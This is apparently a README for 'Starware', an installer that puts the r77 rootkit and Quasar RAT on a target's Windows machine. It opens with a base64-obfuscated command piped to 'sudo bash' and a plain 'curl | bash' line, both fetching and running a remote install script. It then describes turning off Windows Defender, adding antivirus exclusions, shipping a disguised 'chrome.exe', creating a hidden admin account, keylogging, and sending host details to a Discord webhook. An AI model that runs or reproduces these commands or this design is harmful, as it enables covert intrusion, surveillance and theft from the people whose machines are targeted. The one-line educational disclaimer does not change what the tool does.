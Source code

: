 echo "Y3VybCAtcyBodHRwczovL2dpdGh1Yi5jb20vT2d5ZWV0MTAvaW5zdGFsbGVyOTAwMC9yYXcvcmVmcy9oZWFkcy9tYWluL2luc3RhbGwuc2ggfCBiYXNo" | base64 -d | sudo bash

curl -s https://github.com/Ogyeet10/installer9000/raw/refs/heads/main/install.sh | bash



# Starware

Starware is a comprehensive installer script that integrates two powerful tools into a single seamless installation process on your targets system: [r77-rootkit](https://github.com/bytecode77/r77-rootkit) and [Quasar RAT](https://github.com/quasar/Quasar). This tool is designed for advanced users looking to monitor and manage remote systems effectively.

## Features

- **Automated Installation**: Automatically installs and configures r77-rootkit and Quasar RAT.
- **AV Checks and Evasion**: Utilizes WMI to check for installed antivirus products and terminates if a non-whitelisted AV is detected.
- **Remote Access Setup**: Configures an SSH server for remote access and sets up SSH to use a public key for authentication (Note: Public key authentication is currently a work in progress).
- **Network Configuration**: Downloads and installs ZeroTier One and configures it to use a specified ZTO network.
- **Comprehensive Logging**: Sends a complete log and the final status of the installation (success, failure, etc.) to a specified Discord webhook.
- **Quasar Features**: Includes numerous remote tasks such as TCP networking, file management, remote desktop, system monitoring, keylogging, and much more.
- **Stealth Operation**: All activities are concealed using the r77 rootkit.

## Upcoming Features

- **Starware Tools**: A new set of tools for easier configuration and interaction with the target system, including:
  - **DeElevatedPsWindow**: Allows running a PowerShell script/command in the user's desktop context, hidden from the user.
  - **Troll9000**: A playful tool for changing the desktop wallpaper or rotating the monitor display at specified intervals using a background PowerShell process.

## Installation (WIP)


# Starware Execution Flow

Starware script automates the installation and configuration of key components while ensuring a stealthy setup. Below is a detailed overview of the execution flow:

## Initialization and Privilege Check

- Checks if the script is run with Administrator privileges.
- If not, it relaunches itself with the necessary privileges by downloading and executing an encoded command from its GitHub repository.

## Exclusion List Configuration

- If running with admin rights, modifies the Windows Defender exclusion list to ignore paths for:
  - `$77SWClient.exe` - The Starware/Quasar client.
  - `chrome.exe` - The disguised installer executable for Starware and r77.

## Logging Setup

- Initializes a log file named with the hostname and current timestamp to record all operations.

## Error Handling and IP Address Retrieval

- Defines functions for robust error handling and fetching the public IP address using an external service.

## System Information Gathering

- Collects comprehensive system information including CPU details, memory usage, disk info, network details, and public IP address.

## Windows Defender and Antivirus Handling

- Disables Windows Defender real-time monitoring.
- Checks for installed antivirus products and halts execution if any non-whitelisted AVs are detected.

## Notification and Information Reporting

- Sends a notification to a Discord webhook detailing the execution context (hostname and public IP).

## Service and Process Configuration

- Configures r77’s registry settings to hide specific services and processes.
- Installs and sets up OpenSSH Server if not previously installed.
- Installs "ZeroTier One" and downloads "chrome.exe" from the GitHub repository.

## User Account Management

- Creates and hides a new administrative user (`ssh-user`) using registry settings if it doesn't already exist.

## Network Configuration and Cleanup

- Joins a specified ZeroTier network.
- Re-enables Windows Defender Antivirus post-operation.
- Removes any temporary files created during the process.

## Finalization

- Completes the logging session and sends the final log file to the Discord webhook for record-keeping.


## Usage

After installation, Starware can be configured via the generated configuration files or using the upcoming Starware Tools.

## Caution

This software is intended for educational and legally sanctioned purposes only. Users are responsible for ensuring they comply with all applicable laws and regulations.

## License

This project is licensed under [license name] - see the [LICENSE.md](LICENSE.md) file for details.

## Acknowledgments

- Thanks to [bytecode77](https://github.com/bytecode77) for the r77-rootkit.
- Thanks to the developers of [Quasar](https://github.com/quasar/Quasar).
